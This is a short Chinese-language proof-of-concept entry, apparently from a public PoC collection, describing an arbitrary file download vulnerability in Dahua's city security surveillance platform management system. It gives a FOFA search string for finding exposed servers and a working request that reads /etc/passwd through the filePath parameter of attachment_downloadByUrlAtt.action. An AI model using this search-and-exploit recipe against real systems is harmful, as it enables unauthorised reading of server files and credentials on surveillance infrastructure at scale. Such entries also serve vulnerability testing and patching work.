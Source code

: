 # 大华 城市安防监控系统平台管理 attachment_downloadByUrlAtt.action 任意文件下载漏洞

## 漏洞描述

大华城市安防监控系统平台管理存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

大华城市安防监控系统平台管理

## FOFA

```
"attachment_downloadByUrlAtt.action"
```

## 漏洞复现

登录页面

![image-20230704113653161](D:\TMP_FILE\awesome-poc\iot\images\image-20230704113653161.png)

验证POC

```
/portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd
```

![image-20230704113705975](D:\TMP_FILE\awesome-poc\iot\images\image-20230704113705975.png)